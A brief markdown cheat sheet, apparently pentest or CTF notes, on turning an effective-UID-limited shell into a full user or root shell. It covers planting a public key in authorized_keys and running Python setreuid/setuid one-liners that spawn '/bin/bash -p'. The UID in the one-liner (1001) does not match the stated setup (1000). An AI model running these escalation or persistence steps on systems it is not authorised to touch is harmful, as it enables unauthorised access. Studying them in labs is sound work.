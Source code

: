 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public-private key pair can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:
```
euid user: 1000(Eve)
uid user: 33 (www-data)
```
rough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
$python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user public key authentication technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
#python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
